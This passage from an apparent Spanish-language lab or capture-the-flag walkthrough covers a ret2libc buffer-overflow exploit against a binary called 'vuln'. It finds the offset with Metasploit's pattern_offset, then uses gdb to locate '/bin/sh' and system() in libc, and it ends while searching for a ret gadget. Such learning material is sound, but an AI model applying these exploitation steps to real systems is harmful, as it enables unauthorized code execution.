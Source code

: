 ```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x3765413665413565
```

Info:

```
[*] Exact match at offset 136
```

Veremos que es de `136`.

> Ahora de aqui para abajo sera todo dentro de la maquina victima, lo de antes solamente era en la maquina `host` para sacar el `offset`.

### Buscar la dirección de memoria `/bin/sh`

```shell
(gdb) find &__libc_start_main,+9999999,"/bin/sh"
```

Info:

```
0x7ffff7f73031
warning: Unable to access 16000 bytes of target memory at 0x7ffff7fbd3b9, halting search.
1 pattern found.
```

Por lo que veremos la encintramos que estaria en la `0x7ffff7f73031`, vamos a ver si es cierto de la siguiente forma:

```shell
(gdb) x/s 0x7ffff7f73031
```

Info:

```
0x7ffff7f73031: "/bin/sh"
```

Vemos que si, por lo que ya tendriamos la dirección de memoria del `sh`.

### Buscar la dirección de memoria `system`

```shell
(gdb) p system
```

Info:

```
$1 = {int (const char *)} 0x7ffff7e29490 <__libc_system>
```

Vemos que la dirección seria `0x7ffff7e29490`.

### Buscar la dirección de memoria `ret`

```shell
ROPgadget --binary ./vuln
```
